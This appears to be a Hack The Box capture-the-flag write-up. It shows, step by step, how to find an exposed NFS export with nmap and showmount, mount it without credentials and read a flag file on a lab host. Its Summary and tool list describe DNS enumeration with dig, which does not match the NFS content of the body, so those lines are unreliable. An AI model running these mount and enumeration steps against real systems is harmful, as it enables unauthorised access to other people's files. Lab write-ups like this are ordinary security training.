 # [Challenge Name] Write-Up 🕒
> *Hack The Box*  
> *Date Solved: 2025-05-20*  
> *Category: Networking*
> *Tools Used: dig, denum*

## Table of Contents
- [Summary](#summary)
- [Reconnaissance & Enumeration](#reconnaissance--enumeration)
- [Exploitation](#exploitation)
- [Takeaways & Lessons Learned](#takeaways--lessons-learned)

---

## Summary
Perform DNS enumeration against the inlanefreight.htb domain to discover all published hostnames, IPs, and delegated sub‐zones, then identify next steps for network and service discovery.
---

## Reconnaissance & Enumeration
Port scan & RPC discovery
```bash
sudo nmap -p111 -sV -sC 10.129.42.178

    Port 111/tcp open → rpcbind

    NSE rpcinfo reveals an NFS export (program 100003)
```
List available NFS exports
```bash
showmount -e 10.129.42.178

    Export list for 10.129.42.178:
```

/nfsshare 10.129.0.0/16

- Share name: `/nfsshare`  
- Exported to the internal network  

---

## Exploitation

**Create a mount point**  
```bash
mkdir -p ./target-NFS
```

Mount the NFS share
```bash
sudo mount -t nfs 10.129.42.178:/nfsshare ./target-NFS/ -o nolock
```
 -o nolock avoids locking RPC calls if lockd isn’t available

List and read the flag
```bash
    ls ./target-NFS/
    # flag.txt

    cat ./target-NFS/flag.txt
    # HTB{nfs_exposed_flag_txt}
```

---

## Takeaways & Lessons Learned
An easy CTF but I learned the basics of footprinting NFS services. 

- Always enumerate RPC services with rpcinfo and showmount after finding rpcbind.

- nolock option is useful when the server’s lock daemon isn’t responding.

- Quick wins: mounting NFS shares can yield immediate file access without credentials.